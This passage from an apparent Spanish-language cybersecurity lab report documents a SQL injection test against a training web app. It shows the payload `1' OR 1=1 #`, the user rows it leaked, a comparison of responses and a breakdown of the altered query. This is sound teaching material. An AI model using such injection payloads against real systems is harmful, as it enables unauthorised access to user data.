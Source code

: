 En lugar de la imagen, enlace al reporte en HTML publicado: [Reporte del fuzzer (HTML publicado)](https://jrgil20.github.io/PracticasCiberSeguridad/Practica5/paylod4.html) — Abra el enlace en el navegador para ver el informe completo en formato HTML.

Resultado Obtenido (Inyección Exitosa):
- ID: `1' OR 1=1 #` — First name: admin — Surname: admin  
- ID: `1' OR 1=1 #` — First name: Gordon — Surname: Brown  
- ID: `1' OR 1=1 #` — First name: Hack — Surname: Me  
- ID: `1' OR 1=1 #` — First name: Pablo — Surname: Picasso  
- ID: `1' OR 1=1 #` — First name: Bob — Surname: Smith

✅ Confirmación de Vulnerabilidad: La aplicación devolvió TODOS los usuarios de la base de datos en lugar de solo el usuario con ID 1, confirmando que es vulnerable a inyección SQL.

---

### Paso 9: Comparar Respuestas

| Aspecto | Petición Legítima (id=1) | Petición Inyectada (id=1' OR 1=1 #) |
| :--- | :---: | :---: |
| Código HTTP | 200 OK | 200 OK |
| Usuarios devueltos | 1 (admin) | 5 (todos los usuarios) |
| Tamaño de respuesta | ~850 bytes | ~2847 bytes |
| Tiempo de respuesta | ~30 ms | ~45 ms |
| Indicador de vulnerabilidad | ❌ Normal | ✅ VULNERABLE |

Análisis:
- El aumento significativo en el tamaño de la respuesta y la devolución de múltiples usuarios confirman que:
  - La aplicación es vulnerable a inyección SQL.  
  - No existe validación de entrada en el parámetro `id`.  
  - No se utilizan consultas preparadas (prepared statements).  
  - Es posible manipular la lógica de la consulta SQL subyacente.

---

### Explicación Técnica del Payload

Consulta original:
```sql
SELECT first_name, surname FROM users WHERE user_id = '1';
```
Consulta con payload `1' OR 1=1 #`:
```sql
SELECT first_name, surname FROM users WHERE user_id = '1' OR 1=1 #';
```
Desglose:
- `1'` → Cierra la comilla original.  
- `OR 1=1` → Bypass lógico.  
- `#` → Comentario en MySQL que ignora la comilla sobrante.

---